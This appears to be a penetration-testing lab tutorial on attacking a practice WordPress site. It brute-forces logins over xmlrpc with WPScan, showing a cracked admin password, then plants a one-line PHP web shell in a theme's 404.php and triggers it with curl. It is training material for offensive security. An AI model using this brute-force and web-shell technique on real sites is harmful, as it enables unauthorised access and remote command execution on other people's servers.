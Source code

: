 ## Table of Contents

- [WordPress User Bruteforce](#wordpress\user\bruteforce)
  - [WordPress User Bruteforce](#WordPress\User\Bruteforce)
      - [WPscan - XMLRPC](#WPscan\-\XMLRPC)
- [RCE via Theme Editor](#rce\via\theme\editor)
  - [Attacking the WordPress Backend](#Attacking\the\WordPress\Backend)
      - [Theme Editor](#Theme\Editor)
      - [Selecting Theme](#Selecting\Theme)
      - [Twenty Seventeen Theme - 404.php](#Twenty\Seventeen\Theme\-\404.php)
      - [RCE](#RCE)

# WordPress User Bruteforce
## WordPress User Bruteforce

WPScan can be used to brute force usernames and passwords. The scan report returned three users registered on the website: `admin`, `roger`, and `david`. The tool uses two kinds of login brute force attacks, `xmlrpc` and `wp-login`. The `wp-login` method will attempt to brute force the normal WordPress login page, while the `xmlrpc` method uses the WordPress API to make login attempts through `/xmlrpc.php`. The `xmlrpc` method is preferred as it is faster.

#### WPscan - XMLRPC

```shell
gdxqpardo@htb[/htb]$ wpscan --password-attack xmlrpc -t 20 -U admin, david -P passwords.txt --url http://blog.inlanefreight.com

[+] URL: http://blog.inlanefreight.com/                                                  
[+] Started: Thu Apr  9 13:37:36 2020                                                                                                                                               
[+] Performing password attack on Xmlrpc against 3 user/s

[SUCCESS] - admin / sunshine1
Trying david / Spring2016 Time: 00:00:01 <============> (474 / 474) 100.00% Time: 00:00:01

[i] Valid Combinations Found:
 | Username: admin, Password: sunshine1
```



# RCE via Theme Editor
## Attacking the WordPress Backend
With admin access to WordPress, we can modify PHP source code to execute system commands. To perform this attack, log in to Wordpress with the administrator credentials, which should redirect us to the admin panel. Click on `Appearance` on the side panel and select `Them Editor`...


We should select an inactive theme in order to avoid corrupting the main theme.

#### Theme Editor

![image](https://academy.hackthebox.com/storage/modules/17/Theme-Editor.png)

We can see that the active theme is `Transportex` so an unused theme such as `Twenty Seventeen` should be chosen instead.

#### Selecting Theme

![image](https://academy.hackthebox.com/storage/modules/17/Twenty-Seventeen.png)

Choose a theme and click on `Select`. Next, choose a non-critical file such as `404.php` to modify and add a web shell.

#### Twenty Seventeen Theme - 404.php

```php
<?php

system($_GET['cmd']);

/**
 * The template for displaying 404 pages (not found)
 *
 * @link https://codex.wordpress.org/Creating_an_Error_404_Page
<SNIP>
```

The above code should allow us to execute commands via the GET parameter `cmd`. In this example, we modified the source code of the `404.php` page and added a new function called `system()`. This function will allow us to directly execute operating system commands by sending a GET request and appending the `cmd` parameter to the end of the URL after a question mark `?` and specifying an operating system command. The modified URL should look like this `404.php?cmd=id`.

We can validate that we have achieved RCE by entering the URL into the web browser or issuing the `cURL` request below.

#### RCE

```shell
gdxqpardo@htb[/htb]$ curl -X GET "http://<target>/wp-content/themes/twentyseventeen/404.php?cmd=id"
```


